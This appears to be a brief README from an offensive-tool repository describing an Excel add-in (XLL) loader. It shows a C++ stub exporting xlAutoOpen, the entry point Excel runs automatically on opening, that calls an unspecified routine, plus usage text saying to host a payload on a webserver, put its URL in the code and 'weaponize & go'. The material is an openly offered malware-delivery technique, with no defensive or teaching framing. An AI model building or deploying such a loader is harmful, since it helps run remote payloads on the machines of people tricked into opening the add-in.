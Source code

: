 *code borrowed from: https://github.com/MitchHS

added function:


```
extern "C" {
    void __declspec(dllexport) xlAutoOpen();
    void xlAutoOpen() {

        do_stuff();
    }
}
```


Usage: host payload on webserver, edit line 30 w/URL.

Weaponize & go!
